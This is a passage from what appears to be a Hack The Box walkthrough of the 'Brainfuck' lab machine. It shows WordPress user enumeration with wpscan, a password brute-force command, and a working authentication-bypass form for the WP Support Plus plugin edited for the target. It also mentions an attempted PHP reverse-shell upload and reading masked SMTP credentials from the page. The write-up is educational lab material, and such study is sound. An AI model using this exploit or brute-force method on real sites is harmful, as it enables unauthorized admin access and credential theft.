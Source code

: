 ```

[+] administrator
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)


```

Wpscan gave us a ton of information. While performing the following, bruteforce the admin login with hydra. 
```
┌──(code㉿kali)-[~]
└─$ wpscan --url https://brainfuck.htb/ -U admin -P /usr/share/wordlists/rockyou.txt --disable-tls-checks
```

Search for 'WP Support Plus Responsive Ticket System' exploits. Find SQL injection and Privilege Escalation exploits. First, try Privilege Escalation since we have a valid username.

# Exploitation.1

Create test.html web page, editing the exploit with relevent target data, and host it locally on Apache web server. 

Original code:
```
<form method="post" action="http://wp/wp-admin/admin-ajax.php">
	Username: <input type="text" name="username" value="administrator">
	<input type="hidden" name="email" value="sth">
	<input type="hidden" name="action" value="loginGuestFacebook">
	<input type="submit" value="Login">
</form>
```
Edited code:
```
<form method ="post" action="https://brainfuck.htb/wp-admin/admin-ajax.php">
	Username: <input type="text" name="username" value="admin">     # EDIT
	<input type="hidden" name="email" value="sth">
	<input type="hidden" name="action" value="loginGuestFacebook">
	<input type="submit" value="Login">
</form>
```

Browse to http://127.0.0.1/test.html and click "Login."
Then browse to https://brainfuck.htb/wp-admin and find the admin dashboard.

![dashboard](https://github.com/codetantrum/walkthroughs/blob/master/Brainfuck/images/Pasted%20image%2020211111180553.png)

I tried replacing theme page code and uploading a new plugin with reverse shell code written in PHP, however, the server does not appear to have write access to the filesystem. 

In the Easy WP SMTP plugin, we find credentials for orestis. The password field is masked, but we can see the plaintext password using Inspect Element.
